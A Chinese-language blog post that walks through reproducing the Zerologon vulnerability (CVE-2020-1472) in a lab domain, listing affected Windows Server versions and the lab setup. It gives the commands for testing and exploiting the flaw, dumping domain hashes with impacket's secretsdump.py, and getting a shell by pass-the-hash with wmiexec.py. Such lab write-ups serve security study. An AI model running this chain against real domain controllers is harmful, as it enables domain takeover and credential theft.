

复现一下获取hash到获得shell的过程
CVE-2020-1472漏洞复现过程
00 漏洞相关
攻击者通过NetLogon（MS-NRPC），建立与域控间易受攻击的安全通道时，可利用此漏洞获取域管访问权限。成功利用此漏洞的攻击者可以在该网络中的设备上运行经特殊设计的应用程序
影响范围
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
Windows Server 2012
Windows Server 2012 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 R2 (Server Core installation)
Windows Server 2016
Windows Server 2016 (Server Core installation)
Windows Server 2019
Windows Server 2019 (Server Core installation)
Windows Server, version 1903 (Server Core installation)
Windows Server, version 1909 (Server Core installation)
Windows Server, version 2004 (Server Core installation)01 环境搭建
- 域控: windows server 2008 r2
- 域名: Server08.com
- 主机名: AD-Server
- 用户: admin, administrator
- ip: 192.168.2.208
- 域内主机: windows7 sp1
- 用户名: win7
- ip: 192.168.2.207
- 域外主机: mac
02 POC
以下过程均在域外主机mac上完成
使用的脚本
python3 zerologon_tester.py 目标主机名 目标IP检测到目标可以漏洞
0 Exploit
使用的 脚本
python3 CVE-2020-1742.py nbios-name 目标主机名$ 目标IPnbios-name可以在修改计算机名出查看
计算机名==》更改==》其他
运行结果如图：
执行成功
04 Secretsdump
首先需要安装impacket
下载后进入impacket目录,执行命令
sudo pip install .安装完成后进入examples文件夹，使用secretsdump.py脚本
python secretsdump.py 域名/目标主机名\$@目标IP -just-dc -no-pass
成功导出了域控08和域内主机win7的hash
05 wmiexec
获取hash后，使用impacket中的wmiexec.py进行hash传递，获取shell
python wmiexec.py 域名/用户名@目标IP -hashes LM-HASH:NT-HASH使用上一步获取的administrator的hash进行测试
成功获得shell并能执行命令
参考链接：
https://blog.csdn.net/mukami0621/article/details/108605941
https://mp.weixin.qq.com/s/MSLbzg2hCoTSVTtEIxxpNQ
https://github.com/SecureAuthCorp/impacket
本博客所有文章除特别声明外，均采用 CC BY-SA 3.0协议 。转载请注明出处！